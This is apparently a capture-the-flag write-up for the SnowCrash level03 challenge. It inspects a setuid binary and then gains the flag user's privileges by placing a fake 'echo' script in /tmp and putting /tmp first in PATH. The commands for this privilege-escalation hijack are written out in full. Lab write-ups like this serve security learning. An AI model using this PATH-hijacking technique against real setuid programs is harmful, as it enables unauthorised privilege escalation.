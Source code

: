 level03@SnowCrash:~$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

./level03
Exploit me

strings level03
/home/user/level03/level03.c

strace ./level03
getegid32()                             = 4313
geteuid32()                             = 101728
setresgid32(4313, 4313, 4313)           = 0
setresuid32(101728, 101728, 101728)     = 0

`level03` is executable with flag03 permissions thanks to the setgid
By changing the
/usr/bin/env echo Exploit me (found with strings level03)
to a custom echo :
	echo "/bin/sh -c 'getflag'" > /tmp/echo
	chmod 755 /tmp/echo

and setting it into the PATH env var : 
	export PATH=/tmp:$PATH

level03@SnowCrash:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

it will use our echo that is executing getflag instead of normal echo behavior with the flag03 permissions
That way we can get the token
